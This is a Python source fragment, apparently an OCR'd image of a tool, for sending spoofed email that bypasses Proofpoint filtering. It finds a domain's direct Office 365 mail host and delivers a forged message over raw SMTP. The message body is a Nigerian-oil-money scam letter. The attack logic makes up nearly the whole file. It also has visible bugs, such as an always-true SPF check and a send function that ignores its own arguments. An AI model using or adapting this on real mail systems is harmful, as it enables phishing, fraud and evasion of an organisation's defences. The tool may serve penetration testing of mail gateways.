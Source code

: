 ```python
argsdict = vars(args)
fromaddr = argsdict['fromaddr']
toaddr = argsdict['toaddr']
domain = argsdict['domain']
subject = argsdict['subject']
fromname = argsdict['fromname']
toname = argsdict['toname']
mx_record = argsdict['smtpserver']
eicar = argsdict['eicar']

def office_365_check(domain):
        'Grabs the SPF record for the domain'
        for x in dns.resolver.query(domain, 'TXT'):
                if 'v=spf' in x.to_text():
                        domain_spf = x.to_text()
                        print "[*] SPF records for " + domain + ": " + domain_spf
                        if 'protection.outlook.com' or 'sharepointonline.com' in domain_spf:
                                cprint(("[*] " + domain + " uses Office 365, likely vulnerable to attack"), "green")
                                return 1
                        else:
                                return 0

def get_mx_record(domain):
        'Checks for usage of proofpoint for the domain, and grabs an appropriate mx record for the domain'
        for x in dns.resolver.query(domain, 'MX'):
                domain_mx = x.to_text()
                if 'pphosted' in x.to_text():
                        cprint(("[*] " + domain + " is protected by proofpoint, attempting to resolve the domain's Office 365 SMTP server for spam bypass"), "yellow")
                        o365_name = domain.replace(".", "-") + ".mail.protection.outlook.com."
                        return socket.gethostbyname(o365_name)
                else:
                        print "[*] MX records for " + domain + ": " + domain_mx
                        mx_records = domain_mx.split()
                        return socket.gethostbyname(mx_records[1])

def send_mail_message(mxserver, fromaddr, toaddr, data, **kwargs):
        'Sends a message fromaddr to toaddr using mxserver'
        print "[*] Establishing connection to domain's mail server @ " + mxserver
        try:
            server = smtplib.SMTP(mx_record, 25)
            server.helo()
            server.sendmail(fromaddr, toaddr, msg.as_string())
            cprint(("\n[*] Email sent"),"green")
        except smtplib.SMTPRecipientsRefused as e:
            cprint(("\n[!] Error sending to recipient "),"red")
            cprint(("[-]   Recipient: " + toaddr),"yellow")
            cprint(("[-]   Message  : " + str(e.recipients[toaddr])), "yellow")
        except Exception as e:
            cprint(("\n[!] Error sending message: "),"red")
            cprint(("[-]  "+ str(e)), "yellow")

# Add the highly spammy message
body = """Dear Sir,

I have been requested by the Nigerian National Petroleum Company to contact you for assistance in resolving a matter. The Nigerian National Petroleum Company has recently concluded a large number of contracts for oil exploration in the sub-Sahara region. The contracts have immediately produced moneys equaling US$40,000,000. The Nigerian National Petroleum Company is desirous of oil exploration in other parts of the world, however, because of certain regulations of the Nigerian Government, it is unable to move these funds to another region.
```